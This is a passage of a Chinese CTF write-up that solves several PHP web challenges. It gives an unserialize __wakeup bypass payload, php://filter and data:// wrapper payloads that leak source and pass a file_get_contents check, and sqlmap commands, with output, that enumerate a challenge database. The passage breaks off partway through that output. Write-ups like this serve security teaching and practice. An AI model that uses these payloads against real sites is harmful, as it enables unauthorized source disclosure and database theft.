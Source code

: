 将对象参数个数 `2` 改成 `3` 即可绕过，即构造 Payload 如下

```
p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

### PseudoProtocols

题目标题为 伪协议 ，那就是一道 伪协议 的题目力。

题目存在 Param `wllm` ，构造 Payload 如下

```
wllm=php://filter/convert.base64-encode/resource=hint.php
```

就可以得到 `hint.php` 的代码如下

```php
<?php
//go to /test2222222222222.php
?>
```

前往提示内的文件可以得到以下代码

```php
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?>
```

需要使得 `a` 的值为 `I want flag` ，先将 `I want flag` 进行 base64 编码得到 `SSB3YW50IGZsYWc=` ，再构造 Payload 如下

```
a=data://text/plain;base64,SSB3YW50IGZsYWc=
```

就可以得到 flag 了。

### error

根据题目猜测是 SQL 报错注入（？，试试 sqlmap。

```bash
$ python sqlmap.py -u http://node2.anna.nssctf.cn:28431/index.php?id=1 --dbs
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
[*] test_db
$ python sqlmap.py -u http://node2.anna.nssctf.cn:28431/index.php?id=1 -D test_db --tables
Database: test_db
[2 tables]
+---------+
| test_tb |
| users   |
+---------+
$ python sqlmap.py -u http://node2.anna.nssctf.cn:28431/index.php?id=1 -D test_db -T test_tb --columns
Database: test_db
Table: test_tb
[2 columns]
```